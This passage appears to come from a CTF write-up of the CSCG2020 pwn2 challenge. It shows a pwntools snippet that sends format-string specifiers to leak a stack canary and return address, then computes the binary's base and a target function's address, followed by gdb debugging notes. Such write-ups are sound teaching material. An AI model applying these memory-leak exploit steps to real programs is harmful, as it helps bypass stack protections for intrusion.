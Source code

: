 ```python
input('attach gdb')

stack_canary_leak = b'%39$p'
return_address_leak = b'%41$p'
p.sendline(stack_canary_leak+b' '+return_address_leak)

print(p.recvline().decode('utf-8')) # ┌───────────────────────┐
print(p.recvline().decode('utf-8')) # │ You are a Ravenclaw!  │
print(p.recvline().decode('utf-8')) # └───────────────────────┘


memory_leak = p.recvline().split(b' ') # ['0x??????????????', '0x????????????????', enter, your, magic, spell:]
stack_canary_int = int(memory_leak[0], 16)
return_address_int = int(memory_leak[1], 16)
base_address = return_address_int - 0xdc5

print('stack_canary: {0}'.format(hex(stack_canary_int)))
print('base_address: {0}'.format(hex(base_address)))

WINgardium_leviosa_location = text_segment_base_address + 0xb94
```

I have added an input so i had enough time to attach gdb in another shell.

So lets run it, attach gdb, and see what we get:

First lets check the base address:

![](https://github.com/chikizikikato/CTFWriteUps/blob/master/CSCG2020/pwn2/memory_leak_test_base_address.png?raw=true)

Now the stack:

![](https://github.com/chikizikikato/CTFWriteUps/blob/master/CSCG2020/pwn2/memory_leak_test_stack.png?raw=true)
